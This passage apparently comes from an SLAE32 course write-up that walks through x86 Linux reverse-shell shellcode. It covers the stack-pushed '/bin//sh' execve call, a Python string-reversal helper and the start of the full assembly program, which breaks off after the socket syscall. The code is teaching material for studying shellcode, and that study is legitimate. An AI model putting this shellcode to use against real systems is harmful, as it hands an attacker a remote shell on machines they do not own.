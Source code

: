 ```nasm
	xor edx, edx
	push edx		; NULL argument
	push edx		; NULL argument
	push edx		; null terminator
```

Since "/bin/sh" is only 7 bytes, we need to make it 8 bytes. That is because when a string is pushed to the stack it must be multiplied by 4. The safest way to do that, without breaking any functionality, is to add a `/`. So the string `/bin/sh` becomes `/bin//sh`. The following string would be valid too `//bin/sh`. Since we are dealing with the stack again, the string must be reversed first. The next `python` script will help achieve that.

```python
#!/usr/bin/python

import sys

input = sys.argv[1]

print 'String length: ' + str(len(input))

stringList = [input[i:i+4] for i in range(0, len(input), 4)]

for item in stringList[::-1]:
	print item[::-1] + ' : ' + str(item[::-1].encode('hex'))
```

We run the above script by providing the string we want to be reversed.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/2_Shell_reverse_tcp$ ./reverse.py "/bin//sh"
String length: 8
hs// : 68732f2f
nib/ : 6e69622f
```

Now the string is represented as `hex` and we can push it to the stack. So we push first the string "hs//" and then the string "nib/".

```nasm
        ; PUSH /bin//sh
        push 0x68732f2f		; "hs//"
        push 0x6e69622f		; "nib/"
```

Finally, we save `ESP` value to the `EBX` register in order to point at the top of the stack and execute the `execve` syscall.

```nasm
	mov ebx, esp		; ebx points at "/bin//sh" at the top of the stack

	int 0x80		; exec execve syscall
```

The whole `Assembly` program is the following:

```nasm
; TCP Reverse Shell
; Author: geobour98 

global _start

section .text

_start:
	; socket 
	xor eax, eax
	mov ax, 0x167		; 167 is the hex value of the decimal 359 for socket

```